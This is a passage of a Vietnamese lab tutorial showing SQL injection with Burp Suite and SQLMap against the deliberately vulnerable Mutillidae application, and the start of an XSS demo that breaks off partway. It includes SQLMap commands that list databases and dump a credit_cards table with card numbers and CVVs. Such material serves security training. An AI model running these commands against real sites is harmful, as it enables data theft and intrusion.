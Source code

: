 ![ubuntu20 04-2020-10-25-16-07-00](https://user-images.githubusercontent.com/32956424/97102991-88e11280-16dc-11eb-90fe-2cbfd95a2a7e.png)

Khi một người click vào xem blog của bất kỳ ai đó, thì Burp Suite sẽ chặn lại request đó lại, người sử dụng Burp Suite có thể xem, chỉnh sửa request

![ubuntu20 04-2020-10-25-16-07-34](https://user-images.githubusercontent.com/32956424/97103059-e1b0ab00-16dc-11eb-9c56-b349d7d2760d.png)

Tiến hành copy toàn bộ request và paste vào một file txt

![ubuntu20 04-2020-10-25-16-07-54](https://user-images.githubusercontent.com/32956424/97103073-eecd9a00-16dc-11eb-9840-7dfb1d6d7587.png)

![ubuntu20 04-2020-10-25-16-08-24](https://user-images.githubusercontent.com/32956424/97103081-f55c1180-16dc-11eb-9f0f-1857379091d4.png)

Chạy SQLMap, với input là file sample.txt vừa tạo ở trên, chạy lệnh:

```
 ./sqlmap.py -r /home/sonvuduc/sample.txt --dbs
```
Các database của web sẽ hiện ra

![ubuntu20 04-2020-10-25-16-16-50](https://user-images.githubusercontent.com/32956424/97103218-9d71da80-16dd-11eb-8e02-d58d58ed887a.png)

Có thể xem chi tiết các bảng của 1 database cụ thể bằng lệnh 

```
./sqlmap.py -r /home/sonvuduc/sample.txt -D nowasp --tables
```

![ubuntu20 04-2020-10-25-16-17-16](https://user-images.githubusercontent.com/32956424/97103233-b7132200-16dd-11eb-825d-b41be5585839.png)


Xem chi tiết từng cột, thông tin trong bảng, ví dụ như bảng credit_cards:

```
./sqlmap.py -r /home/sonvuduc/sample.txt -D nowasp -T credit_cards --columns -C ccid,ccnumber,ccv,expiration --dump
```

![ubuntu20 04-2020-10-25-16-20-26](https://user-images.githubusercontent.com/32956424/97103275-02c5cb80-16de-11eb-90ef-355e4b4ad33c.png)


### 2.3. Demo Cross-site Scripting 

Truy cập vào trang XSS -> DNS Lookup của Mutillidae

![ubuntu20 04-2020-10-25-16-22-29](https://user-images.githubusercontent.com/32956424/97103410-e24a4100-16de-11eb-9a12-f4eeeb2c0a46.png)

Khi một người nhập hostname hoặc IP và click Lookup DNS, Burp Suite sẽ bắt được dữ liệu 

![ubuntu20 04-2020-10-25-16-24-28](https://user-images.githubusercontent.com/32956424/97103454-30f7db00-16df-11eb-9add-2ae8ad283360.png)

Click chuột phải vào request và chọn **Send to Repeater**

![ubuntu20 04-2020-10-25-16-24-36](https://user-images.githubusercontent.com/32956424/97103473-51279a00-16df-11eb-805b-8503d19caa3c.png)

Vào tab **Repeater** và chọn **Params**
